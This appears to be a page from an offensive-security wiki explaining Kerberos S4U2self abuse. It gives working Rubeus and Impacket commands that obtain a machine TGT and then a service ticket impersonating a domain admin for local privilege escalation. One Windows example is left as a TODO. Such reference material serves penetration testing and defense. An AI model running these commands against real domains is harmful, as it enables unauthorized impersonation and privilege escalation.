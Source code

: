 # 🛠️ S4U2self abuse

## Theory

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities explained [here](delegations/). Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](delegations/constrained.md) and [rbcd](delegations/rbcd.md), those types of delegation rely on **Kerberos extensions called S4U2Self and S4U2Proxy**.

**Service for User to Self (S4U2self)** allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself. This extension can be used by any account that has at least one SPN. Depending on the service and principal configurations, the resulting Service Ticket may or may not be forwardable but either way, the ticket can be used for authentication.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, even if that user is "sensitive for delegation" or member of the Protected Users group. Consequently, this allows attackers to do some privilege escalation.

## Practice

In order to obtain local admin rights on the target machine, the attackers needs to conduct two major steps.

### Obtain a TGT

Obtaining a usable TGT for the machine account, either by knowing one of the machine account's Kerberos keys (RC4, AES128, AES256) or by using [the tgtdeleg trick](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/) locally from the machine is the first step to conduct the privilege escalation.&#x20;

The "tgtdeleg" trick can be conducted with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) from the machine as follows.

```powershell
.\Rubeus.exe tgtdeleg /nowrap
```

Alternatively, if the machine account credentials are known, the TGT can be obtained as follows.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for the purpose.

```bash
getTGT.py -dc-ip "domaincontroller" -hashes :"NThash" "domain"/"machine$"
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose

```powershell
//TODO
```
{% endtab %}
{% endtabs %}

### Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose.&#x20;

```bash
export KRB5CCNAME="machine$.ccache"
getST.py -self -impersonate 'DomainAdmin' -spn 'host/machine.domain.local' -k -no-pass -dc-ip 'domaincontroller' 'domain.local'/'machine$'
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose

```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /ticket:"base64ticket"
```
{% endtab %}
{% endtabs %}

Once a Service Ticket is received, it can be used with [pass-the-ticket](ptt.md)/[pass-the-cache](ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

## Resources

{% embed url="https://exploit.ph/revisiting-delegate-2-thyself.html" %}

{% embed url="https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation" %}
